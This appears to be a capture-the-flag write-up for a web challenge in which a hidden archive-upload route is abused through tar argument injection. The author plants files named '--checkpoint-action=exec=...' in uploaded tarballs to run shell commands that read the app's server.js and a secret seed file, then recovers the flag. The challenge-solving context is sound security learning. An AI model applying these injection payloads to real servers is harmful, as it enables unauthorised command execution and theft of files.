





## Recon

The home page is a static Wildlife Archive site. The response always sets a cookie:

```http
Set-Cookie: role=visitor; Path=/; SameSite=Lax
```

`robots.txt` has no `Disallow`, but it has a hint:

```text
Field archive tooling is not ready for public indexing.
```

Fuzzing routes finds a hidden endpoint:



Opening `/staging` shows an archive upload form:


```text
Only .tar files are accepted at this stage.
```

## Creating the workspace

Upload a normal tar:



The workspace page shows the extraction log and leaks another route:

```html
<form action="/additional/1784486716375" method="POST" enctype="multipart/form-data">
```

The additional upload button is disabled client-side.


Disable the disabling:

```js
enableExperimentalIntake()
```


## Analyzing the bug

Upload again to:

```text
/additional/1784486716375
```

The uploaded file must be named:

```text
materials.tar
```

The additional route whitelists the upload filename, so the name in the multipart must be `materials.tar`. If a different filename is used it gets rejected.

Inside `materials.tar`:

```
.
|-- materials.tar
|   |-- --checkpoint=1
|   |-- --checkpoint-action=exec=id
|   `-- base
```

The contents of the files can be empty.

After uploading `materials.tar`, the server re-extracts it in the old workspace:



The log has errors:
- `tar: materials.tar: Not found in archive`
- `tar: seed.tar: Not found in archive`

The first payload upload just drops those filenames into the workspace.

Upload another `materials.tar` containing only `base` to trigger.


So RCE works.

## Exploitation

Use the bug to read the app source. Craft a payload to read `server.js`:

```
.
|-- materials.tar
|   |-- --checkpoint=1
|   |-- --checkpoint-action=exec=sh -c 'cd ..;cd ..;cd ..;cd ..;cd app;sed -n 1,150p server.js'
|   `-- base
```



Then upload another `materials.tar` to trigger:

```js
const SEED_FILE = process.env.SEED_FILE || "/opt/wild/.cache/seed-574";
```


Now that we know the seed path, create a new additional. Craft a payload to read the seed:

```
.
|-- materials.tar
|   |-- --checkpoint=1
|   |-- --checkpoint-action=exec=sh -c 'cd ..;cd ..;cd ..;cd ..;cd opt;cd wild;cd .cache;cat seed-574'
|   `-- base
```

Then upload a `materials.tar` to trigger. The log returns:



```text
b21uaUNURnt3MWxkYzRyZHNfY2FuX2czdF93MWxkfQ==
```

## Flag

```text
omniCTF{w1ldc4rds_can_g3t_w1ld}
```
